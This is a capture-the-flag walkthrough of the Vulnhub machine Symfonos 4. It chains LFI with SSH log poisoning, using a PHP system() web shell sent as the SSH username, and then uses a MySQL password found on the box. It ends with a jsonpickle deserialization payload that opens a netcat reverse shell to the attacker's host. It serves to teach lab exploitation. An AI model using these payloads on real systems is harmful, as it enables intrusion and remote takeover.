 ```yaml
---
layout: PostSimple
date: 2020-03-12
title:     "Vulnhub - Symfonos 4"
tags: ['medium','port_forward','log-poisoning','mysql']
---
```


Today, We are going to pwn Symfonos 4 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach people the importance of trying harder.
```
Download Link : <https://www.vulnhub.com/entry/symfonos-4,347/>

Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8C:D3:8B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

## HTTP:

Normal webpage with an image like always.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/1.png)

Since there is no other interesting Ports Open, I started Gobuster on the webpage.

Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.1.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html
[+] Timeout:        10s
===============================================================
2020/03/12 19:39:13 Starting gobuster
===============================================================
/index.html (Status: 200)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/sea.php (Status: 302)
/atlantis.php (Status: 200)
/server-status (Status: 403)
/gods (Status: 301)
===============================================================
2020/03/12 19:41:23 Finished
===============================================================
```

``/gods``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/2.png)

Downloaded all log files to my machine.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/3.png)

``hades.log``

>Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.

``poseidon.log``

>Poseidon was the god of the sea, earthquakes and horses. Although he was officially one of the supreme gods of Mount Olympus, he spent most of his time in his watery domain. Poseidon was brother to Zeus and Hades. These three gods divided up creation.

``zeus.log``

>Zeus is the god of the sky, lightning and thunder in Ancient Greek religion and myth, and king of the gods on Mount Olympus. Zeus is the sixth child of Kronos and Rhea, king and queen of the Titans.

``/atlantis.php``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/4.png)

``/sea.php``

Whenever I open ``/sea.php`` it redirects to ``/atlantis.php``. Lets capture the request in burp.

``302 Found`` which is redirection, We can stop a redirection using burp.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/5.png)

All we need to do is change ``302 Found`` to ``200 Ok`` For that open ``Proxy -> Options -> Match and Replace``.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/6.png)

Now If I visit ``/sea.php`` it displays a new page.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/7.png)

So If I select a GOD the url changes to ``/sea.php?file=hades`` maybe Local File Inclusion.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/8.png)

But I can't view ``/etc/passwd`` so I searched for any log files and I got ``/var/log/auth`` We dont need to represent ``.log`` because we already saw those ``poseidon.log, zeus.log and hades.log`` in ``/gods`` with extension but in ``/sea.php`` it shows the same file even without the extensions.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/9.png)

When seeing those Log files it shows ``OpenSSH`` so we can do ``SSH Log Poisoning``

Reference :
>https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

```ssh '<?php system($_GET['c']); ?>'@192.168.1.136```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/10.png)

Now its injected, Time to get reverse shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/11.png)

When checking ``/var/www/html/atlantis.php`` found ``mysql`` credentials.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/12.png)

``root : yVzyRGw3cG2Uyt2r``

I logged with those and got admin hash.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/13.png)

MySql Commands 
> http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm

I tried cracking the hash but I can't. So I skipped that and started looking for other things.

I started looking around in the directories and found ``/opt/code`` I found a python code. I came to know its ``jsonpickle`` so it may be running on the background.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/55.png)

Uploaded My Enumeration Script and Found this 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/14.png)

> - Port 3306 - MySQL
> - Port 8080 - Webpage (Maybe)

We can’t see port ``8080`` directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

I used ``socat`` method for port forwarding. We can also use ``SSH`` interactive shell for port forwarding too.
>https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/

>socat TCP-LISTEN:8081,fork TCP:127.0.0.1:8080

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/15.png)

Now I can visit ``http://192.168.1.136:8081``, It displays this page 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/16.png)

When I click the Main page it directs to 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/17.png)

But ``192.168.1.136:8081/whoami`` is suspecious, So I intercept the request in Burp 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/18.png)

``username`` looks like base64encoded so I decoded that 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/19.png)

So this is the thing we saw in ``/opt/code``

Later I found this [article](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

So I did some changes in the string and encoded this to base64.

> {"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["/usr/bin/nc -e /bin/bash 192.168.1.103 1234"]}, null, null, null]}

Gave that base64 encoded to ``username`` and started my Listener and got shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/20.png)

I'm Root!!

!![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/21.png)